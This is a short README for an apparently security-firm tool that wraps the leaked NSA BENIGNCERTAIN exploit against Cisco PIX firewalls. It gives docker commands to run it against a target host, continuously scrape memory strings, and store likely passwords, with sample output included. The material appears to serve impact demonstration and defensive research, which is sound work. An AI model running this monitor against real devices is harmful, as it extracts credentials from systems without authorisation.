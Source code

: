 # Quickstart
```
$ git clone https://github.com/VirtueSecurity/benigncertain-monitor.git
$ cd benigncertain-monitor
$ sudo docker build . -t benign-monitor
$ sudo docker run -it benign-monitor <host>
```
The service will continuously poll the vulnerable pix, extract ascii strinsg from memory, store the strings in a local sqlite datebase, and show the most frequently observed strings:

```
Starting monitor against 10.0.6.1
        string  count
0         5$dx      3
1          0(0      3
2         $c{l      3
3       (0"t&j      3
4   R$dkd$hf7!      2
5    %d1N=8$i-      2
6        $c)P0      1
7         1NlD      1
8        1NlD'      1
9       $c)P(0      1
10     $c)P1@_      1
```

# Overview
This dockerized python script is a wrapper for the NSA BENIGNCERTAIN Cisco exploit. This script polls the vulnerable service over time to identify probable passwords and other potentially sensitive information. Since the NSA exploit previously only revealed a point in time status, we built this as a service to show impact over broader period of time.


